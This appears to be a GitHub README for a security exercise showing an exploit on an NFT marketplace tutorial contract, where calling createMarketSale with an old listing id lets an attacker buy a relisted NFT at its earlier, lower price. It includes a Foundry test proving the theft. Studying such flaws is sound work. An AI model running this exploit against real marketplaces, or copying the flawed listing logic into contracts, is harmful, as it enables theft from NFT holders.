 # NFT marketplace exploit

Smart contract exploit on the most popular nft marketplace [tutorial](https://www.youtube.com/watch?v=GKJBEEXUha0&t)

## The Hack

An nft can be bought with the information of its previous listings by calling ```createMarketSale``` with older data and 

A hacker can buy any NFT listed with an older listing data by calling ```createMarketSale``` on a previous listing id.
For example, if an NFT is currently listed at 10 ether and it was listed at a 1 ether, a hacker can get buy it for 1 ether.

The 1 ether is transfered to the old lister instead of the current one.

    // Start seller has 1 NFT - 10 ether
    //       buyer has 10 ether
    //       hacker has 10 ether
    
    // Minter-Seller lists its nft for 1 ether
    vm.prank(seller);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 1 ether);


    // buyer buys the nft for 1 ether & lists it for 10 ether
    
    vm.startPrank(buyer);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    nft.approve(address(marketplace), 1);
    marketplace.createMarketItem{value:0 ether}(address(nft), 1, 10 ether);
    vm.stopPrank();


    // hacker is able to buy the nft for 1 eth using the old listing data.
    // Buyer loses its nft
    
    vm.startPrank(hacker);
    marketplace.createMarketSale{value:1 ether}(address(nft), 1);
    
    assertEq(seller.balance, 12 ether);
    assertEq(buyer.balance, 9 ether);
    assertEq(hacker.balance, 9 ether);
    assertEq(nft.balanceOf(hacker), 1);

    // End (hacked) seller has 12 ether
    //              buyer has 9 ether
    //              hacker has 9 ether & 1 NFT


    // Expected    seller has 11 ether
    //              buyer has 19 ether
    //              NotHacker has 0 ether & 1 NFT

### Disclaimer
*The purpose of this repository is a simple security exercise & do not encourage to hack smart contracts in the real world.*
